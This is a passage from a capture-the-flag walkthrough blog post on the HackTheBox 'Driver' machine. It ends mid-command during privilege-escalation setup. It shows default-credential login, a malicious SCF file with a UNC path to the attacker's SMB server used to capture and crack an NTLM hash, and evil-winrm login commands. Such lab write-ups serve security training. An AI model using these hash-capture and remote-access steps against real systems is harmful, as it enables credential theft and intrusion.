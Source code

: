 ```yaml
---
title: Driver HackTheBox Walkthrough
url: https://www.hackingarticles.in/driver-hackthebox-walkthrough/
source: Hacking Articles
date: 2022-12-15
fetch_date: 2025-10-04T01:30:59.175453
---
```


# Driver HackTheBox Walkthrough

[Skip to content](#content)

Hacking Articles

## Recent Posts

* [AWS: IAM CreateLoginProfile Abuse](https://www.hackingarticles.in/aws-iam-createloginprofile-abuse/)
* [Privacy Protection: Encrypted DNS](https://www.hackingarticles.in/privacy-protection-encrypted-dns/)
* [Privacy Protection: Windows Privacy](https://www.hackingarticles.in/privacy-protection-windows-privacy/)
* [Privacy Protection: Browsers](https://www.hackingarticles.in/privacy-protection-browsers/)
* [Privacy Protection: Password Manager](https://www.hackingarticles.in/privacy-protection-password-manager/)

## Most Used Categories

* [CTF Challenges](https://www.hackingarticles.in/category/ctf-challenges/) (504)
  + [VulnHub](https://www.hackingarticles.in/category/ctf-challenges/vulnhub/) (311)
  + [HackTheBox](https://www.hackingarticles.in/category/ctf-challenges/hackthebox/) (164)
* [Penetration Testing](https://www.hackingarticles.in/category/penetration-testing/) (408)
* [Red Teaming](https://www.hackingarticles.in/category/red-teaming/) (126)
* [Website Hacking](https://www.hackingarticles.in/category/website-hacking/) (64)
* [Cyber Forensics](https://www.hackingarticles.in/category/cyber-forensics-tricks/) (68)
* [Privilege Escalation](https://www.hackingarticles.in/category/privilege-escalation/) (59)
* [Hacking Tools](https://www.hackingarticles.in/category/collection-of-hacking-tools/) (33)
* [Pentest Lab Setup](https://www.hackingarticles.in/category/pentest-lab-setup/) (29)

# [Hacking Articles](https://www.hackingarticles.in/)

Raj Chandel’s Blog

Search for:

Menu

* [Courses We Offer](https://www.hackingarticles.in/courses-we-offer/)
* [CTF Challenges](https://www.hackingarticles.in/ctf-challenges-walkthrough/)
* [Penetration Testing](https://www.hackingarticles.in/penetration-testing/)
* [Web Penetration Testing](https://www.hackingarticles.in/web-penetration-testing/)
* [Red Teaming](https://www.hackingarticles.in/red-teaming/)
* [Donate us](https://www.hackingarticles.in/donate-us/)

* [Home](https://www.hackingarticles.in/)
»* [CTF Challenges](https://www.hackingarticles.in/category/ctf-challenges/)
»* [Driver HackTheBox Walkthrough](https://www.hackingarticles.in/driver-hackthebox-walkthrough/)
»

[CTF Challenges](https://www.hackingarticles.in/category/ctf-challenges/), [HackTheBox](https://www.hackingarticles.in/category/ctf-challenges/hackthebox/)

# Driver HackTheBox Walkthrough

[December 14, 2022June 19, 2025](https://www.hackingarticles.in/driver-hackthebox-walkthrough/) by [Raj](https://www.hackingarticles.in/author/raj/)

The driver is an easy-rated Windows box on the HackTheBox platform. This is designed to understand initial exploitation using an SCF file and further escalate privileges locally using PrintNightmare (printer driver vulnerability). The box covers the fundamentals of enumeration and points to attention to detail while pentesting.

### Table of Content

**Initial Access**

* Enumeration using Nmap and other tools
* Compromising low-priv hash using SCF file
* Evil-WinRM to access low-priv account
* User Flag

**Privilege Escalation**

* Abusing printer driver vulnerability
* Root flag

Let’s deep dive into this.

### Initial Access

The IP address assigned to the machine is 10.129.32.68. Upon running an Nmap scan on this, we get the following result

![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhfnLCbTcD0oJ02BSoqk9zHokEpAau71lWylEVZw7RlzVtWKMO9URB3F670Mkyb-WwiEO--UV-kK3si7sZ33cwT2aOaSCklF9VEMyTQ1Snl_bryXPMc2Yujylq-19PgXmPul32W25lDRxrsl7ESsKINLwWbObgKOiaJYeWikY2Ij9ms6_-Lo6VHG1p95A/s16000/1.png)

We check each port for enumeration and further access. Only port 80 seemed to have a gateway which could lead further. But it was bound by a password.

![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEg1IfgkDJCWPCJd2xP7LqBZhDygYob2hBeYXHJjsCixGdiCnmKMXjN4K_eB9oEP4sMP-Jgwdxpk2A7c7Y0gcl91pYP3M4vu886BPvLU6PQoG-SOFMds7njLRVKVMyQeiXFtzdSEN6YCezMD3Dna6ZwfqfL1WAq3-2GurUrDlk7HyA2Y9oKWQhy7esiA_g/s16000/2.png)

But knowing the password is essential. We see in nmap results that an MFP printer website is running on this port. By operating under the assumption that websites for hardware products generally have a default password set, we try admin/admin and it worked!

![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhQWNeSNLGCxlyfrVGJemyTha0ADPfRytW6TZwN3cOJNq5xc1Pzd-hvhMRlMktBLmV98zsCPFqIAPMBqOFhLvpIclwkLm9X96otr74ppFxtQBvuBTv_R7YBaG4zd6KUkRs-pKRmOIVASR7OhIPvnqmEHAJfZrtedwY2SIdkRY2hMg_nTJVT-bIt_Tes5Q/s16000/3.1.png)

Further, we see there’s a firmware update option on the website which takes in a file. We looked for firmware files and how shells could be injected into them for execution. A far simpler method came up by which we could inject a Shell Command File (SCF) into the updated portal. You can read more about SCF **[here](https://www.ibm.com/docs/en/aix/7.1?topic=concepts-creating-running-shell-script)**. In Nmap, we see that a Windows server was running so the server could successfully run an SCF file.

We simply created an SMB server and used a UNC path to access it in order to catch the current running user’s hash.

```
cat shell.scf
[Shell]
Command=2
IconFile=\\10.10.14.93\tools\ignite.ico
[Taskbar]
Command=ToggleDesktop
```

![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEivpengmmVEFbebfMlG_XSDqmgJSnOSIm1sY_2MoS7JH2biUD52J0NpALdmSEGp91rLE7u3Xd52HUiz3co21yl6VMsM0dC2C5jbU7ylVSNVeYZ1iMMl7-H0GAa89d_fPv6T-iHP1zod16t5GqzO7BCVjasZqodsdpxjBIeFaRu0MvKxdwpmw3ox_TvYUw/s16000/3.png)

Further, we just upload this to the Firmware Updates section.

![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEiwyWZo7mAuPFBlHLmG3MvcCZELGEwZJjFVcHE8SQM4Y_NuOFur11-t8zMVaquJQr3D307gPKtIQlhG82q7DoS0ueHkL9x1sIZuPouyC2Bx4IKJPnOVWWFn0Mu5Na6xnkWj3R_qowtCCTPDJ4s4Zp5RG6ZZJdbCoUHIlr6GVbyoR1HlDWWVIAAW9EPfIw/s16000/3.2.png)

Before hitting submit, we launch our smbserver using the impacket tool suite. And then upon hitting submit, we see the Windows server ran the file and we captured a low-priv user tony’s hash.

```
smbserver.py tools $(pwd) -smb2support
```

![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgYeeVwIgzdEuLLq6EvK4uaAND6lyZ5RpZ43BiWcSnGj5plfLaHiI-U3q6z86mTotv3XcwWMn-yd-yy9ou3IICWIaycwSM60CevYfkaqAhn5y6CIQCJqg6BC4d6MoBo7aUKnPK3BiRycwspiXJkwnNCYKzaOE3LuH8CCAwPcm89UkYxBqJD8hDPq9Tg1g/s16000/5.png)

We save this hash into a file and then run john the ripper using the rockyou dictionary file. We see a cracked credential “liltony”

![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEjuKPCUMQtqotukioDpRZZFcu5o85o7gtRWm5l6BUG8Uk1f-IZGUI5ied9JaNWa978YS1KZB1StZmZDy9HJL7DPFmYfFlWqtaymMDhxnxB14hrzgFKSs3RRcMPD0sMfrfpQ92i4q1cEDJA4aRvb3rT6d2ePoTaLm_aEEvUxHIyvCrkgScxursek_rPhSA/s16000/6.png)

Next, we tried using SMB tools to access the shell to the server but it didn’t work. In Nmap we see WinRM running so we tried evil-winrm to access tony’s account. You can install evil-winrm using gem. Then we access user.txt on Desktop.

```
gem install evil-winrm
evil-winrm -i 10.129.32.68 -u tony -p liltony
cd ..\Desktop
cat user.txt
```

![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhw_ZhBoyPp8lK6AmDRpK9FHMie6XYP630K_M3FqXaONwW8sjGM417mBbzvRv1hNTPOdWJ5bOTvh2dDrxIiGXtYPhu0m2v3Tjoab0XSwW9NxthF56S7IHHxww2V3UrFglCtouOgUiSQhETqXlQ5frr-GkhDt7dKOWlwEyQjh-egNMEdc8FRwwsMPniTLA/s16000/7.png)

### Privilege Escalation

To enumerate further for privilege escalation, we use winPEASx64.exe. We can download this using wget.

```
wget https://github.com/carlospolop/peass-ng/releases/download/20221006/winpeasx64.exe
```

![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgvi4oU_yxr59ZtjERx49jWO0lHlPFPZ9yHh1sadB0CTco5KzQxAp3nA7pALBLkA8_VsA-kU1DDThtL8zgMEHcUc0GUHmL7z6xpATG2Px8vWnlhQjn_VvTjm15gxfu40K3UpIufrBJx1F3xkuOFw4Iff4S5pbpiD_0YXSru4BwWLPUjQPBlt7xnC62kBw/s16000/8.png)

We can use the upload feature in evil-winrm to put this file on our box and then run it.

```
upload /root/winpeasx64....